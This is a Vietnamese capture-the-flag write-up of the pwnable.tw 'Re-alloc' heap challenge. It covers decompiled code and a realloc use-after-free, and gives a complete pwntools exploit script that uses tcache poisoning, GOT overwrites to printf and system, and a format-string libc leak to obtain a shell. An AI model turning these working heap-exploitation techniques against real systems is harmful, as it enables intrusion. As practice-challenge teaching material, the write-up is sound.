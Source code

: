 ```yaml
---
title:  "Pwnable.tw - Re-alloc"
date:   2025-03-25 10:00:00 +0700
header:
  teaser: "/assets/images/2025-03-25-pwntw-realloc/Screenshot 2025-03-25 172442.png"
tags:
  - pwnable.tw
  - elf
  - heap
  - use-after-free
  - tcache-poisoning
  - realloc
---
```


![Challenge description](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-25%20172442.png){:class="img-responsive"}

## Phân tích
### Tổng quan
Challenge cho ta một elf binary cùng với libc phiên bản 2.29. RELRO và PIE tắt.  
![Checksec](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-26%20120846.png){:class="img-responsive"}  
Chương trình có 4 chức năng:
1. Alloc 1 chunk có index, size và data được user chỉ định. Giá trị size phải nhỏ hơn 0x78 (Vừa với tcache).

```cpp
int allocate()
{
  _BYTE *v0; 
  unsigned __int64 v2; 
  unsigned __int64 size; 
  void *v4; 

  printf("Index:");
  v2 = read_long();
  if ( v2 > 1 || heap[v2] ) {
    LODWORD(v0) = puts("Invalid !");
  }
  else {
    printf("Size:");
    size = read_long();

    // tcache limit
    if ( size <= 0x78 ) { 
      v4 = realloc(0LL, size);

      // alloc thành công
      if ( v4 ) { 
        heap[v2] = v4;
        printf("Data:");
        v0 = (_BYTE *)(heap[v2] + read_input(heap[v2], (unsigned int)size));
        *v0 = 0;
      }
      else {
        LODWORD(v0) = puts("alloc error");
      }
    }
    else {
      LODWORD(v0) = puts("Too large!");
    }
  }
  return (int)v0;
}
```
2. Re-alloc 1 chunk đã được alloc trước đó với size và data mới.

```cpp
int reallocate() {
  unsigned __int64 v1; 
  unsigned __int64 size; 
  void *v3; 

  printf("Index:");
  v1 = read_long();
  if ( v1 > 1 || !heap[v1] )
    return puts("Invalid !");
  printf("Size:");
  size = read_long();
  if ( size > 0x78 )
    return puts("Too large!");
  v3 = realloc((void *)heap[v1], size);
  if ( !v3 )
    return puts("alloc error");
  heap[v1] = v3;
  printf("Data:");
  return read_input(heap[v1], (unsigned int)size);
}
```
3. Free 1 chunk có index được user chỉ định. Sau khi free có đặt lại pointer về null nên sẽ không có lỗi ở đây.

```cpp
int rfree() {
  void *v0; 
  unsigned __int64 v2; 

  printf("Index:");
  v2 = read_long();
  if ( v2 > 1 ) {
    LODWORD(v0) = puts("Invalid !");
  }
  else {
    realloc(*((void **)&heap + v2), 0LL);
    v0 = &heap;
    *((_QWORD *)&heap + v2) = 0LL;
  }
  return (int)v0;
}
```
4. Thoát chương trình.

Ngoài ra, chương trình chỉ cho phép 2 chunk tồn tại đồng thời (index là 0 hoặc 1), việc này được kiểm soát bởi global array **heap**.
### Hiểu về hàm realloc
Điều đáng chú ý ở challenge này là nó dùng hàm realloc để thực hiện cả 3 thao tác chính. Dựa theo [man page](https://man7.org/linux/man-pages/man3/realloc.3p.html) và [source code](https://elixir.bootlin.com/glibc/glibc-2.29/source/malloc/memusage.c#L379) của realloc:
1. realloc(NULL, size): giống như malloc.
2. realloc(ptr, size): dealloc (không phải free) chunk cũ và alloc 1 chunk mới với size mới với data giống với chunk cũ, độ dài của data phù hợp với chunk nhỏ hơn. Nếu size mới bằng size cũ thì realloc không làm gì cả.
3. realloc(ptr, 0): giống như free.

Dựa vào những điều trên, ta xác định được lỗi use-after-free ở chức năng thứ 2 của chương trình do không kiểm tra size được nhập bởi user.  
## Khai thác
Với hạn chế size của mọi chunk phải ở trong vùng tcache thì ý tưởng khai thác chính của ta sẽ là dùng kỹ thuật tcache-poisoning.  
Các bước khai thác:
1. Ghi đè got_atoll thành plt_printf (chọn atoll do ta có thể kiểm soát hoàn toàn tham số của nó).
2. Leak libc base bằng lỗi format-string vừa tạo ra.
3. Vẫn dùng lỗi format-string, ghi đè tất cả các giá trị trong mảng **heap** về null nhằm tránh lỗi khi alloc về sau.
4. Ghi đè got_atoll thành system, thao tác tương tự bước 1 (lưu ý printf trả về số kí tự được in thành công)
5. Lấy shell

```python
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./re-alloc_patched", checksec = False)
libc = ELF("./libc.so.6", checksec = False)

# con = process()
con = remote("chall.pwnable.tw", 10106)

def debug_from_here():
    gdb.attach(con, gdbscript = '''
        b*main+0x6f
        b*main+0x7b
        b*main+0x87
    ''')
    input()

def alloc(idx, size, data):
    con.sendlineafter(b"Your choice: ", b"1")
    con.sendlineafter(b"Index:", idx)
    con.sendlineafter(b"Size:", size)
    con.sendlineafter(b"Data:", data)

def realloc(idx, size, data):
    con.sendlineafter(b"Your choice: ", b"2")
    con.sendlineafter(b"Index:", idx)
    con.sendlineafter(b"Size:", size)
    if (size != b"0" and size != b"\0"):
        con.sendlineafter(b"Data:", data)
    
def free(idx):
    con.sendlineafter(b"Your choice: ", b"3")
    con.sendlineafter(b"Index:", idx)

### Stage 1: overwrite got_atoll -> plt_printf
alloc(b"0", f"{0x10}", b"abcd0")                # heap[0] = p1
realloc(b"0", b"0", "")                         # heap[0] = p1; tcache[0x20] = [p1]
realloc(b"0", f"{0x10}", p64(elf.got['atoll'])) # heap[0] = p1; tcache[0x20] = [p1 -> atoll_got -> ...]
alloc(b"1", f"{0x10}", b"abcd1")                # heap[0] = p1, heap[1] = p1; tcache[0x20] = [atoll_got -> ...]

realloc(b"1", f"{0x20}", b"abcd1")              # heap[0] = p1, heap[1] = p2; tcache[0x20] = [atoll_got -> ...]
free(b'1')                                      # heap[0] = p1, heap[1] = 0; tcache[0x20] = [atoll_got -> ...], tcache[0x30] = [p2]
alloc(b"1", f"{0x10}", p64(elf.plt['printf']))  # heap[0] = p1, heap[1] = atoll_got; tcache[0x20] = [...], tcache[0x30] = [p2]

### Stage 2: leak libc base
free(b"%7$p")
libc.address = int(con.recvline().strip(b"\n"), 16) - 0x1e5760
log.success(hex(libc.address))

### Stage 3: clear heap array
free(b"%9$n".ljust(8) + p64(elf.sym['heap']))
free(b"%9$n".ljust(8) + p64(elf.sym['heap'] + 8))

### Stage 4: overwrite got_atoll -> system
alloc(b"\0", f"%{0x2f}c", b"abcd0")                  # heap[0] = p1
realloc(b"\0", b"\0", b"")                           # heap[0] = p1; tcache[0x40] = [p1]
realloc(b"\0", f"%{0x2f}c", p64(elf.got['atoll']))   # heap[0] = p1; tcache[0x40] = [p1 -> atoll_got -> ...]
alloc(b"1\0", f"%{0x2f}c", b"abcd1")                 # heap[0] = p1, heap[1] = p1; tcache[0x40] = [atoll_got -> ...]

realloc(b"1\0", f"%{0x3f}c", b"abcd1")               # heap[0] = p1, heap[1] = p2; tcache[0x40] = [atoll_got -> ...]
free(b'1\0')                                         # heap[0] = p1, heap[1] = 0; tcache[0x40] = [atoll_got -> ...], tcache[0x50] = [p2]
alloc(b"1\0", f"%{0x2f}c", p64(libc.sym['system']))  # heap[0] = p1, heap[1] = atoll_got; tcache[0x40] = [...], tcache[0x50] = [p2]

### Stage 5: get shell
free(b"/bin/sh")

con.interactive()

```
![Solved](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-26%20120324.png){:class="img-responsive"}

